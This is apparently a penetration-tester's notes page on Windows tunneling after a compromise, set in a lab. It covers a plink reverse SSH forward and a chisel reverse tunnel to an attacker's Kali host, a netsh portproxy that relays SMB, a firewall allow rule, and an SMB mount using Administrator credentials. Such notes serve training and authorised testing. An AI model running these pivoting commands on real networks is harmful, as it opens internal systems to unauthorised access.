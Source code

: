 ```yaml
---
title: Tunneling
permalink: /Tunneling/Windows
---
```

C:\Windows\system32>netstat -anpb TCP
Proto Local Address Foreign Address State
TCP   0.0.0.0:3306  0.0.0.0:0       LISTENING
[mysqld.exe]

C:\Tools\port_redirection_and_tunneling>cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
                                        piping with a prompt                  user  password   Kali machine   target   mysql port

kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234

## Or use chisel
```./chisel client 10.10.14.6:8000 R:8086:127.0.0.1:8086```

## NETSH

We have compromised a Windows 10 target through a remote vulnerability and were able to successfully elevate our privileges to SYSTEM. After enumerating the compromised machine, we discover that in addition to being connected to the current network (10.11.0.x). It has an additional network interface that seems to be connected to a different network (192.168.1.x). In this internal subnet, we identify a Windows Server 2016 machine (192.168.1.110) that has TCP port 445 open. With our privilege, netsh can be used. The Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use

```C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddres s=10.11.0.22 connectport=445 connectaddress=192.168.1.11```

```C:\Windows\system32>netstat -anp TCP | find "4455"```` 
 
Adding a firewall rule to allow inbound connections on that port  
``C:\Windows\system32> netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow``` 
 We allow (action=allow) specific inbound (dir=in) connections and leverage the firewall (advfirewall) context of netsh
 
Modify smb conf  
```kali@kali:~$ cat /etc/samba/smb.conf  
min protocol = SMB2  
kali@kali:~$ sudo /etc/init.d/smbd restart  
kali@kali:~$ smbclient -L 10.11.0.22 --port=4455 --user=Administrator```  

Better to mount a share, because smbclient might raise timeout issue

```kali@kali:~$ sudo mkdir /mnt/win10_share```
```kali@kali:~$ sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share```
